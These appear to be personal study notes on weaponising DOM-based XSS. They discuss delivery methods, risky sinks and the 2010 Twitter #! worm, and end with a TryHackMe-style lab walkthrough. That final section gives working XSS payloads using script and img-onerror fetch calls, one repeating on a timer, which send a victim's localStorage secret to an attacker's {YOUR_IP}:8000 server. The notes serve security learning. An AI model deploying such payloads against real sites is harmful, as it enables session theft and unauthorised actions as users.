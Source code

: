 
To weaponize DOM-based XSS, we need to rely on the two conventional delivery methods of XSS payloads, namely storage and reflection. This is why DOM-based XSS, and other DOM-based attacks for that matter, are so hard to exploit. Without a proper delivery method, you are performing the attack on yourself and not a target.

To counter this, we either need the web server to store our payload for later delivery or to deliver the payload through reflection. At this point, our DOM-based XSS becomes a Stored or Reflected XSS attack.

Modern browsers have introduced **URL encoding** mechanisms, making **reflected XSS** harder to exploit when the source is the URL. This means that many traditional reflected XSS attacks fail because special characters (like `<script>`) are automatically encoded, preventing script execution.

As a result, **stored XSS** becomes a more viable attack vector, as it does not rely on URL-based reflection but rather on **persistent data stored on the server**.

Since stored XSS involves **injecting malicious scripts into stored user data**, attackers look for **sinks** where this data is later used **without sanitization or validation**. Potential sources include:
- **User profiles** (e.g., username, bio, comments, status updates).
- **Forum posts or reviews** where user content is stored and displayed.
- **Chat applications** that persist messages and display them dynamically.
- **Admin dashboards** that render user-submitted content.

 *Key Factors in Identifying Vulnerable Sinks*
- **Is the user input being properly escaped before rendering?** If not, it could lead to script execution.
- **Which function is injecting the data into the page?** If `innerHTML` or `document.write` is used, it’s a high-risk sink.
- **Is the data being processed by JavaScript after retrieval?**  If so, it could lead to **DOM-based stored XSS**.

## General Weaponization Guidelines
Oftentimes, you will find that it is easy to get the coveted `alert('XSS')` payload to work. However, this is usually where the fun ends, and if we are being honest with ourselves, we haven't actually shown impact.

The next crutch that is often used is to attempt to steal the user's cookie. However, this quickly becomes a problem when cookie security is enforced by using the HTTPOnly flag, disallowing JavaScript from recovering the cookie value. We need to dive deeper to weaponize the XSS vulnerability to achieve a valid exploit and show the true impact of what was found.

The following is a [great article](https://labs.withsecure.com/blog/getting-real-with-xss/) that talks about XSS weaponization. To fully weaponize XSS, we first need to realize the power of what we have. At the point where we can fully execute XSS and load a staged payload, we can control the user's browser. This means we can interface with the web application as the user would. We don't need to pop an alert or steal the user's cookie. We can instruct the browser to request on behalf of the user. This is what makes XSS so powerful. Even if you find XSS on a page where there isn't really anything sensitive, you can instruct the browser to recover information from other, more sensitive pages or to perform state-changing actions on behalf of the user. All we need to do is understand the application's functionality and tailor our XSS payload to leverage and use this functionality to our advantage. Let's take a look at a case study.


## Case Study - Twitter
In 2010, it was discovered that Twitter (now [X](https://twitter.com/?lang=en)) had a DOM-based XSS vulnerability. In an update to their JavaScript, Twitter introduced the following function:

```javascript
//<![CDATA[ (function(g){var a=location.href.split("#!")[1];if(a){g.location=g.HBR=a;}})(window); //]]>
```

Effectively, the function searched for `#!` in the URL and assigned the content to the `window.location` object, creating both a source and a sink without proper data validation and sanitisation. As such, an attacker could get the coveted pop-up simply using this payload:

`http://twitter.com/#!javascript:alert(document.domain);`

As mentioned before, this wouldn't really do anything. However, the issue was weaponised by [threat actors](https://archive.f-secure.com/weblog/archives/00002035). The vulnerability was weaponised using the `onmouseover` JavaScript function to create a worm that would:

- Retweet itself to further spread to new users
- Redirect users to other websites, in some cases containing further malicious payloads.
- Display pop-ups and other intrusive behaviours that could potentially phish for personal information.  

In the end, the weaponised exploit affected thousands of users. It is worth remembering that this was in 2010. If such a bug were found today, the impact would be even larger.


Also consider this challenge write-up: https://github.com/cyberterms/tryhackme-write-ups/blob/main/DOM-Based_Attacks/write-up.md  

![](Pasted%20image%2020250205160028.png)
	![](Pasted%20image%2020250205160130.png)
		![](Pasted%20image%2020250205160330.png)
			![](Pasted%20image%2020250205160514.png)

- Script for stealing victim's secret that is stored in browser local.storage:
```javascript
<script>fetch('http://{YOUR_IP}:8000/?data='+encodeURIComponent(localStorage.getItem('secret')))</script>
```

- XSS payload 
```javascript
<img src="1" onerror="fetch('http://{YOUR_IP}:8000/?secret='+encodeURIComponent(localStorage.getItem('secret')))">
```

- We have to set a delay interval to wait for our victim 
```javascript
<img src="1" onerror="setInterval(()=>fetch('http://{YOUR_IP}:8000/?secret='+encodeURIComponent(localStorage.getItem('secret'))), 6000)">
```

![](Pasted%20image%2020250205163520.png)
	![](Pasted%20image%2020250205163702.png)

secret: `thisisthesupersecretvalue` (modify the cookie value in the local storage in order to be able now to perform delete actions via API delete request)
	![](Pasted%20image%2020250205164338.png)
		![](Pasted%20image%2020250205164419.png)
			![](Pasted%20image%2020250205164450.png)